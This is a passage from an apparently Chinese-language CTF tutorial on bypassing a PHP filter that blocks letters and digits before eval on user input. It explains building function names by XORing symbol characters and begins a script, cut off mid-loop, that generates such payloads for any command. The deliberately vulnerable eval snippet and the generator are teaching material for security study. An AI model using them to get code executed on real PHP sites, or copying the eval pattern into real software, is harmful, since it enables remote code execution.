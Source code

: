 ## 无字母数字

### 异或运算绕过

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(!preg_match('/[a-z0-9]/is',$_GET['cmd'])) {
    eval($_GET['cmd']);
}
a-z、0-9过滤字母和数字
```

异或运算：如果a、b两个值不相同，则异或结果为1，相同为0

```php
echo base_convert(bin2hex('5'),16,2)---->00110101
echo base_convert(bin2hex('Z'),16,2)---->01011010
通过异或运算后得到---->01101111----->字母o
```

```php
<?php
function o(){
    echo "hello benben!!!";
}
$_="5"^"Z";
$_();
?>
    程序会输出hello benben!!!
```

异或运算生成的脚本

```php
<?php
header("content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);
$shell = $_GET["cmd"];
$result1 = "";
$result2 = "";

function judge($c)
{
    if(!preg_match('/[a-z0-9]/is',$c))
    {
        return true;
    }
    return false;
}

for($num=0;$num<=strlen($shell);$num++)
{
    for($x=33;$x<=126;$x++)
    {
        if(judge(chr($x)))
        {
            for($y=33;$y<=126;$y++)
            {
                if(judge(chr($y)))
                {
                    $f = chr($x)^chr($y);
                    if($f == $shell[$num])
                    {
```